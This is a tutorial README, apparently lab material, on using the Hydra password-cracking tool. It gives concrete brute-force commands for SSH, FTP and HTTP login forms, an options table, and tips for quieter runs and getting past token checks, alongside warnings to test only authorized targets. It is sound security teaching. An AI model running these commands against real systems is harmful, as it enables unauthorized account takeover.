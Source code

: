 # Hydra ![Hydra](hydra.png)

## What is Hydra?
Hydra is a brute force online password cracking program, a quick system login password “hacking” tool.

Hydra can run through a list and “brute force” some authentication services. Imagine trying to manually guess someone’s password on a particular service (SSH, Web Application Form, FTP or SNMP) - we can use Hydra to run through a password list and speed this process up for us, determining the correct password.

According to its [official repository](https://github.com/vanhauser-thc/thc-hydra), Hydra supports, i.e., has the ability to brute force the following protocols: “Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP, HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MEMCACHED, MONGODB, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, Radmin, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, TeamSpeak (TS2), Telnet, VMware-Auth, VNC and XMPP.”

For more information on the options of each protocol in Hydra, you can check the [Kali Hydra tool page](https://en.kali.tools/?p=220).

This shows the importance of using a strong password; if your password is common, doesn’t contain special characters and is not above eight characters, it will be prone to be guessed. A one-hundred-million-password list contains common passwords, so when an out-of-the-box application uses an easy password to log in, change it from the default! CCTV cameras and web frameworks often use ```admin:password``` as the default login credentials, which is obviously not strong enough.

## Installing Hydra


Use the in-browser Kali machine, Hydra also comes pre-installed, as is the case with all Kali distributions. You can access it by selecting Use Kali Linux and clicking on Start Kali Linux button.

However, you can check its official repositories if you prefer to use another Linux distribution. For instance, you can install Hydra on an Ubuntu or Fedora system by executing ```apt install hydra ```or ```dnf install hydra```. Furthermore, you can download it from its official [THC-Hydra repository](https://github.com/vanhauser-thc/thc-hydra).




# Hydra Commands 

A concise reference for using **Hydra** to brute-force services (SSH, FTP, and web forms). Examples below assume you run Hydra from a Linux shell and have proper authorization to test the target.

---

## Table of contents

- [SSH brute force](#ssh-brute-force)
- [FTP example](#ftp-example)
- [HTTP POST form brute force](#http-post-form-brute-force)
- [Common options](#common-options)
- [Tips & safety](#tips--safety)

---

## SSH brute force

Use this to brute force SSH logins when you know the username and have a password list.

```bash
hydra -l <username> -P <full/path/to/password_list.txt> <MACHINE_IP> -t 4 ssh
```

**Example**

```bash
hydra -l root -P /home/user/passwords.txt 10.0.0.5 -t 4 ssh
```

This will:

- Try username `root`.
- Try passwords line-by-line from `/home/user/passwords.txt`.
- Use 4 parallel threads.
- Target SSH on `10.0.0.5`.


## FTP example

A simple FTP example when the username is `user` and the password list is `passlist.txt`:

```bash
hydra -l user -P passlist.txt ftp://MACHINE_IP
```

## HTTP POST form brute force

When the login form uses `POST`, you must tell Hydra the request path, the form field names, and a string that appears in the response when login fails.

General syntax:

```bash
sudo hydra -l <username> -P <wordlist> <MACHINE_IP> http-post-form "<path>:<login_credentials>:<invalid_response>" -V
```

- `<path>` — path of the login endpoint (e.g., `/login.php` or `/`).
- `<login_credentials>` — e.g. `username=^USER^&password=^PASS^` where `^USER^` and `^PASS^` are placeholders.
- `<invalid_response>` — a string that appears only when login fails (Hydra uses this to detect failures).

**Concrete example**

If the login form is at the root `/` and the POST body uses `username` and `password` fields and fails with the string `F=incorrect`:

```bash
hydra -l <username> -P <wordlist> <MACHINE_IP> http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```

**Example filled-in**

```bash
hydra -l admin -P /home/user/wordlists/rockyou.txt 10.0.0.5 http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid credentials" -V
```

Notes:
- Use your browser DevTools (Network tab) to inspect the exact POST body and failure response string.
- If fields are sent as JSON, or the site uses JavaScript-heavy requests (XHR/fetch), you will need to replicate that payload exactly or use another tool that can script the flow.


## Common options

| Option | Description |
|---|---|
| `-l` | Specify a single username (for services that accept a username) |
| `-L` | File containing multiple usernames (one per line) |
| `-P` | Password list file |
| `-p` | Single password |
| `-t` | Number of parallel tasks/threads |
| `-V` | Verbose: show every attempt |
| `-s` | Port number (if non-standard) |


## Tips & safety

- **Only test targets you are explicitly authorized to test.** Unauthorized brute forcing is illegal and unethical.
- Start with fewer threads (`-t 4`) to avoid overloading the target and to be less noisy.
- Use `-V` during testing to see each attempt, and remove it for quieter runs.
- For web forms, double-check the exact request format (field names, cookies, headers) with the browser DevTools.
- If the site uses CSRF tokens or dynamic tokens, Hydra might fail — consider programmatic approaches (e.g., custom scripts with `requests`/`curl`) that can fetch tokens per attempt.
